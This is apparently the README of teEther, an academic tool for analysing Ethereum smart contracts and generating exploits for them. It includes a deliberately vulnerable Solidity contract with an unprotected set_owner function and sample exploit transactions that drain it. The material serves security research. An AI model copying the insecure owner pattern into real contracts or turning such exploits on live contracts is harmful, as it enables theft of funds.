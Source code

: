 # teEther - Analysis and automatic exploitation framework for Ethereum smart contracts

teEther is an analysis tool for Ethereum smart contracts.
It can
* [disassemble EVM bytecode](./teether/cfg/disassembly.py#L13)
* [perform backward slicing](./teether/slicing.py#L123)
* [execute EVM bytecode](./teether/evm/evm.py#L31)
* [execute EVM bytecode **symbolically**](./teether/evm/evm.py#L290)
* [plot nice CFGs](./bin/plot_cfg.py)
* [create exploits for vulnerable smart contracts](./bin/gen_exploit.py)

## Quickstart

1. Install `teEther`
```bash
python setup.py install
```

2. Write your vulnerable smart contract
```solidity
pragma solidity ^0.4.0;

contract Test{

    struct Transaction{
        address to;
        uint amount;
    }

    mapping (bytes32 => Transaction) transactions;

    address owner;
    
    function set_owner(address new_owner){
        owner = new_owner;
    }
    
    function new_transaction(address to, uint amount) returns (bytes32){
        bytes32 token = sha3(to, amount);
        Transaction storage t = transactions[token];
        t.to = to;
        t.amount += amount;
        return token;
    }
    
    function approve(bytes32 token){
        require(owner == msg.sender);
        Transaction storage t = transactions[token];
        t.to.transfer(t.amount);
        delete transactions[token];
    }
    
}
```

3. Compile your contract
```
$ solc --bin test.sol | tail -n1 > test.code
```

4. Extract the deployed contract code
```
$ python bin/extract_contract_code.py test.code > test.contract.code
```

5. Generate an exploit
```
$ python bin/gen_exploit.py test.code 0x1234 0x1000 +1000

...
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0x7cb97b2b0000000000000000000000000000000000000000000000000000000000001234", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0x0129ab2700000000000000000000000000000000000000000000000000000000000012340000000000000000000000000000000000000000000000016bc75e2d63100103", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0xa53a1adfce9e2ef9fe2568f35b22f98bb749862a13e0abd291c6ba4967016d629412829d", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
```

## Academia

Our paper [**teEther: Gnawing at Ethereum to Automatically Exploit Smart Contracts**](https://publications.cispa.saarland/2612/1/main.pdf) was published at the [27th USENIX Security Symposium (Usenix Security 18)](https://www.usenix.org/conference/usenixsecurity18/presentation/krupp) ([slides](https://www.usenix.org/sites/default/files/conference/protected-files/security18_slides_krupp.pdf), [video](https://www.youtube.com/watch?v=mW4jQzPVP_A)).

```bibtex
@inproceedings{teEther2018,
          author = {Johannes Krupp and Christian Rossow},
       publisher = {USENIX Association},
       booktitle = {27th USENIX Security Symposium (USENIX Security 18)},
            year = {2018},
           title = {{teEther: Gnawing at Ethereum to Automatically Exploit Smart Contracts}},
             url = {https://publications.cispa.saarland/2612/},
}
```

